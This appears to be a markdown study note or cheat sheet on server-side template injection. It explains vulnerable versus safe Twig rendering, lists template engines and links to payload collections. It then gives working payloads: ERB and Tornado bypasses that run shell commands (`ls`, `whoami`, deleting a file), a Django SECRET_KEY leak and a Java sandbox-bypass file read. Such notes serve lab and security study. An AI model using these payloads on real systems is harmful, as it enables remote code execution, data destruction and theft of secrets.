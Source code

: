 **Server-side Template Injection** is when an attacker is able to use *native template syntax* to *inject a malicious payload into a template* which is then executed server-side.

```php
# Not Vulnerable ❌
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );

# Vulnerable ✅
$output = $twig->render("Dear " . $_GET['name']);
```

First code is *not vulnerable* to server-side template injection because the user's first name is merely *passed into the template as data*.
Second code is vulnerable because *part of the template itself is being dynamically generated* using the GET parameter name.

---
# Web Template Engines
| Template Name | Language                     |
| ------------- | ---------------------------- |
| FreeMarker    | Java-based template engine   |
| Velocity      | Java-based template engine   |
| Twig          | PHP template engine          |
| Smarty        | PHP template engine          |
| Jade          | Node.js template engine      |
| Jinja2        | Python/Flask template engine |
| ERB           | Ruby template engine         |
| Tornado       | Python template engine       |
| Handlebars    | NodeJS template engine       |

# Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
https://www.pwny.cc/web-attacks/server-side-template-injection-ssti

---
## ERB Template
```rb
# Example
require 'erb'

x = 42
template = ERB.new <<-EOF
  The value of x is: <%= x %>
EOF
puts template.result(binding)
```

###### Recognized Tags
```rb
<% Ruby code -- inline with output %>
<%= Ruby expression -- replace with result %>
<%# comment -- ignored -- useful in testing %>
% a line of Ruby code -- treated as <% line %> (optional -- see ERB.new)
%% replaced with % if first thing on a line and % processing is used
<%% or %%> -- replace with <% or %> respectively
```


#### Bypass
```ruby
# Line break URLencoded
%7B%7B%0d%0a`ls`%7D%7D

# Line jump
test%3C%25%3D%20%60ls%20%2F%60%20%25%3Etest
```


## Tornado Template
https://ajinabraham.com/blog/server-side-template-injection-in-tornado

**Bypass {{ }}** :-
1) Method 1
	- `user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')`
	- So final argument becomes `{{user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')}}`

2) Method 2:-
	- Use Python's inbuilt module function
	- `__import__('os').system('whoami')`



## Handlebars NodeJS
URL encode the exploit code!


## Django
Find the framework's *secret key*
```python
{{settings.SECRET_KEY}}
```

---
# Sandbox Bypass Payloads
https://www.pwny.cc/web-attacks/server-side-template-injection-ssti

```java
// Here, product is the object being referred to (Change it according to what object you want to refer to)
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
```
